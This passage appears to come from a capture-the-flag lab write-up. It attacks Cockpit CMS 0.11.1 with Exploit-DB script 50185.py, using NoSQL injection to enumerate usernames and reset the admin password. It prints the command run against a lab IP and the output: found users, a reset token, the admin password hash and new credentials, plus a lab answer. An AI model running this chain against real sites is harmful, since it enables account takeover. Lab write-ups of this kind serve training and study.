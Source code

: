 ![image](https://github.com/user-attachments/assets/576fe691-b089-4e89-bae3-b932174746e9)

<p>page source --> version 0.11.1</p>

![image](https://github.com/user-attachments/assets/afa79251-5237-4caf-89f0-bca12b01d67e)

<br>
<br>

<h3>ExploitdB</h3>

![image](https://github.com/user-attachments/assets/e3d06c91-a4fe-47ec-85a7-be066ee95809)

<p>Cockpit CMS 0.11.1 - 'Username Enumeration & Password Reset' NoSQL Injection</p>

![image](https://github.com/user-attachments/assets/08d645cc-6e93-47dd-a16d-ebb00d31852a)

<p>50185.py</p>

![image](https://github.com/user-attachments/assets/c5b4249f-809e-4e80-b7e1-e100ef89fc15)

<br>
<br>

> 1.4. <em>How many users can you identify when you reproduce the user enumeration attack?</em><br><a id='1.4'></a>
>> <strong><code>4</code></strong><br>
<p></p>

<p><code>admin </code> : <code>$<#aV+G^4l</code></p>

```bash
:~# python3 50185.py -u http://TargetIP
[+] http://10.10.72.83: is reachable
[-] Attempting Username Enumeration (CVE-2020-35846) : 

[+] Users Found : ['admin', 'darkStar7471', 'skidy', 'ekoparty']

[-] Get user details For : admin
[+] Finding Password reset tokens
	 Tokens Found : ['rp-f0e0da4918ff68086b026f4e9356c33468530b1edbb5c']
[+] Obtaining user information 
-----------------Details--------------------
	 [*] user : admin
	 [*] name : Admin
	 [*] email : admin@yourdomain.de
	 [*] active : True
	 [*] group : admin
	 [*] password : $2y$10$dChrF2KNbWuib/5lW1ePiegKYSxHeqWwrVC.FN5kyqhIsIdbtnOjq
	 [*] i18n : en
	 [*] _created : 1621655201
	 [*] _modified : 1621655201
	 [*] _id : 60a87ea165343539ee000300
	 [*] _reset_token : rp-f0e0da4918ff68086b026f4e9356c33468530b1edbb5c
	 [*] md5email : a11eea8bf873a483db461bb169beccec
--------------------------------------------


[+] Do you want to reset the passowrd for admin? (Y/n): Y
[-] Attempting to reset admin's password:
[+] Password Updated Succesfully!
[+] The New credentials for admin is: 
 	 Username : admin 
 	 Password : $<#aV+G^4l
```
